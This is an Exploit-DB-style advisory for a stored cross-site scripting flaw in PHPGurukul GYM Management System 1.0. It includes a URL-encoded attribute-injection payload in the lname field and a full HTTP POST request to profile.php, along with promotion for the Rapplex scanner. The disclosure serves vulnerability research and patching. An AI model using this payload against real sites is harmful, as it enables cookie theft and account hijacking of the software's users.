 # GYM MS - GYM Management System - Cross Site Scripting (Stored)
- Vendor Homepage: https://phpgurukul.com/gym-management-system-using-php-and-mysql/
- Software Link: https://phpgurukul.com/projects/GYM-Management-System-using-PHP.zip
- Version: 1.0
- Last Update: 31 August 2022
- Tested On: Kali Linux 6.1.27-1kali1 (2023-05-12) x86_64 + XAMPP 7.4.30
- https://www.exploit-db.com/exploits/51777
- [Rapplex](https://rapplex.com)

## Proof of Concept
- 1: Create user, login and go to profile.php

- 2: Use payload x%22%20onmouseover%3Dalert%28document.cookie%29%20x%3D%22 in lname field.

- 3: When entering the profile.php page, document.cookie will be reflected every time.

**_NOTE:_** This vulnerability was detected while testing with **Rapplex - Web Application Security Scanner.**

## About Rapplex
Rapplex is a web applicaton security scanner that scans and reports vulnerabilities in websites.
Pentesters can use it as an automation tool for daily tasks but "Pentester Studio" will provide such a great addition as well in their manual assessments.
So, the software does not need separate development tools to discover different types of vulnerabilities or to develop existing engines. 
"Exploit" tools are available to take advantage of vulnerabilities such as SQL Injection, Code Injection, Fle Incluson.


## HTTP Request 
```
POST /gym/profile.php HTTP/1.1
Host: localhost
Content-Length: 129
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: PHPSESSID=76e2048c174c1a5d46e203df87672c25 #CHANGE
Connection: close

fname=test&lname=x%22%20onmouseover%3Dalert%28document.cookie%29%20x%3D%22&email=john%40test.com&mobile=1425635241&state=Delhi&city=New+Delhi&address=ABC+Street+XYZ+Colony&submit=Update
```
